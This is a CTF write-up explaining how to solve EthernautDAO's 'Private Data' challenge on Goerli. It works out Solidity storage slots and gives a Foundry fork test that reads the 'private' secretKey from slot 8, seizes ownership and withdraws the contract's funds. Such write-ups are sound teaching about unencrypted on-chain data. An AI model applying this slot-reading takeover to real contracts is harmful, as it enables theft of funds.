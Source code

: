 ```yaml
---
title: 'EthernautDAO CTF — Private Data Solution'
excerpt: ΞthernautDAO is common goods DAO aimed at transforming developers into Ethereum developers. </br></br>Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership`  and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.
coverImage: '/assets/blog/ethernautdao.jpeg'
date: '2020-07-11T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernautdao.jpeg'
---
```


[ΞthernautDAO](https://twitter.com/EthernautDAO) is common goods DAO aimed at transforming developers into Ethereum developers.

They started releasing CTF challenges on Twitter, so how couldn't I start solving them?

[https://twitter.com/EthernautDAO/status/1543957806532833282](https://twitter.com/EthernautDAO/status/1543957806532833282)

# CTF 1: Private Data

The contract [0x620e0c88e0f8f36bcc06736138bded99b6401192](https://goerli.etherscan.io/address/0x620e0c88e0f8f36bcc06736138bded99b6401192) has been deployed on the Goerli network.

> Anyone can deposit ether, but only the owner can withdraw
> During contract creation a secret key is set, which allows o transfer ownership of the contract

Our goal for this challenge is to be able to take the ownership of the contract by calling the function `takeOwnership` and then withdraw all the contract's funds by calling the `withdraw` function that can be called only by the owner of the contract.

## Study the contracts

Let's start by reading the `constructor` code

```solidity
constructor(string memory rndString) {
    owner = msg.sender;

    // create a random number and store it in a private variable
    secretKey = uint256(
        keccak256(
            abi.encodePacked(
                blockhash(block.number - 1),
                block.timestamp,
                rndString
            )
        )
    );
}
```

Inside the `constructor` the deployer set up the `owner` equal to `msg.sender` and then initialize a `secretKey`.

To become the new owner of the contract and be able to call `takeOwnership` we must be able to reconstruct this secret key.

The first thing that you must remember when you use or develop on the blockchain is that **nothing** is private in the blockchain. Everything can be seen even if you declare a variable as `private` or `internal`. I suggest you to read more about this concept by reading [“SWC-136: Unencrypted Private Data On-Chain”](https://swcregistry.io/docs/SWC-136).

I'm saying this because the owner of the contract would think that there is no way that I would be able to read directly a `private` state variable. But in reality, we have two different way to do that:

1. you could re-construct the key by reviewing the deployment data on Etherscan or Tenderly
2. you could just fork the Goerli network in a block after the deployment and use [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html) to read the slot where that value is stored

We will go with the second options just because I think that it's more fun :D

First, we need to understand how the [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage) work.

- Each storage slot will use 32 bytes (word size)
- For each variable, a size in bytes is determined according to its type
- Multiple, contiguous items that need less than 32 bytes are packed into a single storage slot if possible according to the following rules:
  - The first item in a storage slot is stored lower-order aligned.
  - Value types use only as many bytes as are necessary to store them.
  - If a value type does not fit the remaining part of a storage slot, it is stored in the next storage slot.
  - Structs and array data always start a new slot and their items are packed tightly according to these rules.
  - Items following struct or array data always start a new storage slot.

Let's now look at the Contract variables layout:

```solidity
    uint256 public constant NUM = 1337;
    address public owner;
    bytes32[5] private randomData;
    mapping(address => uint256) public addressToKeys;
    uint128 private a;
    uint128 private b;
    uint256 private secretKey;
```

First thing to note is that `constant` and `immutable` variables will not take a storage slot because they will be directly replaced in the code at compile time or during deployment time (immutable). See more on the ["Constant and Immutable State Variables"](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables) documentation page.

So let's make some math, given each variable type we can know which slot they will use:

- `owner` will be at **slot0**
- `randomData` will take slot **from slot1 to slot5** because it is a static array of five elements
- `addressToKeys` will take **slot6**. For mapping and dynamic arrays, it's the layout is a little more complicated, but it's not relevant for this challenge. I anyway suggestion to read more on ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays) documentation page.
- `a` and `b` variable will use the same **slot7** because they take in total 32 bytes
- This mean that our `secretKey` variable will take **slot8**!

Why is so important to know which slot is used by our variable?

Because by forking the chain and by using Foundry Cheatcode we can directly read a Contract's slot value in a specific block in time even if the variable is private!

## Solution code

Now what we need to do is:

- Create an Alchemy or Infura account to be able to fork the Goerli blockchain
- Choose a good block from which we can create a fork. Any block after the creation of the contract will be good
- Run a foundry test that will use the fork, read the slot, print it out and boom! We know which is the `secretKey`

Here's the code that I used for the test:

```solidity
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.13;

import "./utils/BaseTest.sol";
import "src/PrivateData.sol";

contract PrivateDataTest is BaseTest {
    PrivateData private privateData;

    constructor() {
        string[] memory userLabels = new string[](2);
        userLabels[0] = "Alice";
        userLabels[1] = "Bob";
        preSetUp(2, 100 ether, userLabels);
    }

    function setUp() public override {
        // Call the BaseTest setUp() function that will also create testsing accounts
        super.setUp();

        // Attach the contract to the addresses on the fork
        privateData = PrivateData(payable(0x620E0c88E0f8F36bCC06736138bDEd99B6401192));

        vm.label(address(privateData), "PrivateData");
    }

    function testTakeOwnership() public {
        address player = users[0];
        vm.startPrank(player);

        // assert we are not the owners
        address owner = privateData.owner();
        assertEq(owner == player, false);

        // load the secret key slot from slot 9
        bytes32 secretKeyBytes = vm.load(address(privateData), bytes32(uint256(8)));
        uint256 secretKey = uint256(secretKeyBytes);

        console.log("secretKey", secretKey);

        // take the ownership of the contract
        privateData.takeOwnership(secretKey);

        // assert we are the onwer
        assertEq(privateData.owner(), player);

        // withdraw all the funds, if we are the owner it shoud not revert
        privateData.withdraw();

        vm.stopPrank();
    }
}
```

Here is the command I have used to run the test: `forge test --match-contract PrivateDataTest --fork-url <your_rpc_url> --fork-block-number 7178864 -vv`

Just remember to replace `<your_rpc_url>` with the RPC URL you got from Alchermy or Infura.

Now we can go directly on Etherscan and call `takeOwnership` passing the `secretKey` we just printed in the console.

You can read the full solution of the challenge, opening [PrivateData.t.sol](https://github.com/StErMi/ethernautdao-ctf/blob/main/test/PrivateData.t.sol)

## Further reading

- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Foundry's Cheatcode](https://book.getfoundry.sh/forge/cheatcodes.html)
- [Layout of State variables in Storage](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#layout-of-state-variables-in-storage)
- [Constant and Immutable State Variables](https://docs.soliditylang.org/en/v0.8.15/contracts.html?highlight=constant#constant-and-immutable-state-variables)
- ["Mappings and Dynamic Arrays"](https://docs.soliditylang.org/en/v0.8.15/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
